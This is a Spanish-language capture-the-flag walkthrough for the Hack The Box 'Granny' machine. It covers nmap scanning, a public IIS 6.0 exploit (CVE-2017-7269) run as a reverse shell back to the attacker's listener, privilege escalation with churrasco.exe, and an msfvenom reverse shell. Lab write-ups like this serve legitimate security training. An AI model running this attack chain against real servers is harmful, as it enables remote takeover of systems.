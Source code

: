![cover](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/granny.jpg)

## Windows - Easy
IP = 10.10.10.15

### USER ###

*** 
Ejecutamos nmap 
    
    nmap -p- --open --min-rate 5000 -n -Pn -oG allPorts 10.10.10.15
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/allports.jpg)

    nmap -sC -sV -p80 -oN targeted 10.10.10.15

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/targeted.jpg)

Detectamos un puerto IIS 6.0 habilitado 

Buscamos vulnerabilidades de IIS 6.0 y encontramos el CVE-2017-7269

Nos descargamos el exploit de:

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269

Ejecutamos el exploit poniendo el puerto a la escucha.

    python2.7 iis6\ reverse\ shell 10.10.10.15 80 10.10.14.2 4444

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/acceso.jpg)   

Conseguimos acceso a la maquina, comprobamos el usuario con el que hemos accedido nt autority\network service
Esta cuenta tiene permisos de acceso a los recursos de red pero no podemos hacer nada con ella.

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/networkservice.jpg)

Buscamos informacion para la escalada de privilegios y encontramos el articulo
https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/

ejecutamos 

    whoami /priv
    
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/impersonate.jpg)

comprobamos que el SeImpresontaPrivilege Enabled
Descargamos churrasco.exe y lo compartimos con impacket

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/churrasco.jpg)

Ejecutamos whoami con churrasco.exe y vemos que somos system

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/system.jpg)

Creamos un reverse shell con msfvenom

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/shell.jpg)

lo copiamos en granny

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/copy2.jpg)

ponemos en escucha el puerto de nuestro reverse shell y ejecutamos lo ejecutamos con churrasco

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/exploit.jpg)

Conseguimos acceso con system

leemos la flag de user

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/user.jpg)

### Root ###
***

Ejeutamos cd en la caperta de administrador y vemos que nos permite el acceso, vamos al escritorio y encontramos la flag

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/root.jpg)
